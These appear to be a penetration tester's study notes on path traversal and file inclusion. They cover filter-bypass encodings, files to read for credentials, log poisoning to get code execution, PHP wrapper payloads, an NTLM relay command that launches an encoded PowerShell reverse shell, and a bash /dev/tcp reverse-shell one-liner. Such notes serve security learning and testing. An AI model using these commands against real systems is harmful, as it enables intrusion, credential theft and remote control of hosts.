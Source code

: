 ### Path Traversal

**Path Traversal with Other Returned Content Types**
- Sometimes the app will return something like `/etc/passwd` in `image/jpeg` format
  - Firefox does NOT like this and will not show the contents of the image, instead displaying an error
    - Viewing the network request has a similar result
  - Thus, must be viewed via something showing the raw response (like burp or curl)

**Bypassing traversal defenses**
- Try using absolute paths
- Try using `....//` if `../` is stripped
- Try encoding the data:
  - `%2f` for `/` and `%2e` for `.` 

**Windows Directory Traversal**
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

**File Inclusion**
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**
